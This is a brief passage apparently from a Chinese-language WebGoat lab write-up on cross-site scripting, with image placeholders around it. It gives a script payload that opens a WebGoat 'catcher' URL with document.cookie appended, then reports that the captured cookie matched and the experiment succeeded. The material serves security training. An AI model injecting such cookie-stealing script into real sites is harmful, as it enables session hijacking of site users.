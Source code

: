   ![](16.jpg)

  - 换成'''<script>window.open('http://127.0.0.1:8087/WebGoat/ catcher?PROPERTY=yes&msg='+document.cookie)</script>'''代码，此时弹出网页URL值与刚才得到的cookie值相同，实验成功
  ![](19.jpg)